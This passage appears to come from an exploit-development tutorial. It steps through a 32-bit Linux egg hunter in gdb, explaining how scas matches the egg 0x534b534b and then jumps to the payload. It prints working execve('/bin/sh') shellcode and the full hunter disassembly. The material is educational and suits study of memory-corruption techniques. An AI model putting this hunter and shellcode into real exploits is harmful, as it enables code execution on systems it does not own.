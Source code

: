 ~~~ nasm
   0x0804a077 <+23>:	je     0x804a065 <egg_hunter+5>
   0x0804a079 <+25>:	mov    eax,0x534b534b
   0x0804a07e <+30>:	mov    edi,edx
   0x0804a080 <+32>:	scas   eax,DWORD PTR es:[edi]
=> 0x0804a081 <+33>:	jne    0x804a06a <egg_hunter+10>
   0x0804a083 <+35>:	scas   eax,DWORD PTR es:[edi]
   0x0804a084 <+36>:	jne    0x804a06a <egg_hunter+10>
   0x0804a086 <+38>:	jmp    edi
   0x0804a088 <+40>:	add    BYTE PTR [eax],al
End of assembler dump.
0x0804a081 in egg_hunter ()
(gdb)
~~~


Taking a look at the source code, is is clear that the memory address `0x804a0a0` pointed to the first `EGG` at the beginning of the shellcode.

After the `scas` instruction added four bytes to `0x804a0a0`, `EDI` has now been incremented to `0x804a0a4` and currently points to the second `EGG` before the start of the shellcode.

~~~ c
unsigned char second_stage[] = \
                                EGG
                                EGG
                                "\x31\xc0\x50\x68\x6e\x2f\x73\x68"
                                "\x68\x2f\x2f\x62\x69\x89\xe3\x50"
                                "\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"; // /bin/sh execve-stack
~~~


The same `DWORD` string comparison is conducted between the value in the `EAX` register, which is the egg, `0x534b534b`, and the value in the memory address currently pointed to by `EDI`, which is `0x4b	0x53	0x4b	0x53`. As this is a match, the zero flag is set and process will ignore the conditional jump instruction and move on to the following `jmp edi` instruction.

After the string comparison occurred, the `scas` instruction adds four bytes to the memory location pointed to by `EDI`. As such, `EDI` has been updated from `0x804a0a4` to `0x804a0a8` and now points to the beginning of the shellcode after the two egg identifiers.

~~~ nasm
$4049 = 0x534b534b
$4050 = 0x804a0a4
$4051 = 0x804a0a0
$4052 = 0x804a0a4
0x804a0a4 <second_stage+4>:	0x4b	0x53	0x4b	0x53
eflags         0x246	[ PF ZF IF ]
Dump of assembler code for function egg_hunter:
   0x0804a060 <+0>:	cld    
   0x0804a061 <+1>:	xor    eax,eax
   0x0804a063 <+3>:	xor    edx,edx
   0x0804a065 <+5>:	or     dx,0xfff
   0x0804a06a <+10>:	inc    edx
   0x0804a06b <+11>:	lea    ebx,[edx+0x4]
   0x0804a06e <+14>:	mov    eax,0x21
   0x0804a073 <+19>:	int    0x80
   0x0804a075 <+21>:	cmp    al,0xf2
   0x0804a077 <+23>:	je     0x804a065 <egg_hunter+5>
   0x0804a079 <+25>:	mov    eax,0x534b534b
   0x0804a07e <+30>:	mov    edi,edx
   0x0804a080 <+32>:	scas   eax,DWORD PTR es:[edi]
   0x0804a081 <+33>:	jne    0x804a06a <egg_hunter+10>
=> 0x0804a083 <+35>:	scas   eax,DWORD PTR es:[edi]
   0x0804a084 <+36>:	jne    0x804a06a <egg_hunter+10>
   0x0804a086 <+38>:	jmp    edi
   0x0804a088 <+40>:	add    BYTE PTR [eax],al
End of assembler dump.
~~~